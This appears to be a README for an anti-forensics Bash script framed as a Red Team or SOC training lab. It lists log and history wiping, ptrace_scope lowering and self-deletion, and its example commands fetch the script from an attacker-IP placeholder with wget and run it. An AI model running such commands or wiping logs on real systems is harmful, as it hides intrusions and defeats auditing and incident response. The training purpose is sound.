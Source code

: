 # clean.sh

 Anti-Forensics Bash Script: SSH Log Wiper
This project demonstrates how attackers may clean up their traces after gaining remote access to a Linux system via SSH. It includes a Bash script that performs full cleanup of forensic artifacts, simulating realistic attacker behavior for Red Team or SOC training labs.

🎯 Features
Clears .bash_history and disables history logging

Wipes key system log files: auth.log, syslog, wtmp, btmp, etc.

Deletes temporary files from /tmp and /var/tmp

Optionally lowers ptrace_scope for stealth

Prompts user to optionally reboot the system

Self-destructs: deletes itself after execution or reboot

🧪 Lab Setup
Attacker: Kali Linux (hosts the script over HTTP)

Victim: Ubuntu server (pulls script via wget or curl and executes)

⚠️ Disclaimer
This script is for educational and red team lab use only.
Do not use on production environments or without permission.

💡 Example Use

#wget http://<ATTACKER_IP>:8080/clean.sh -O /tmp/clean.sh
#chmod +x /tmp/clean.sh
#bash /tmp/clean.sh
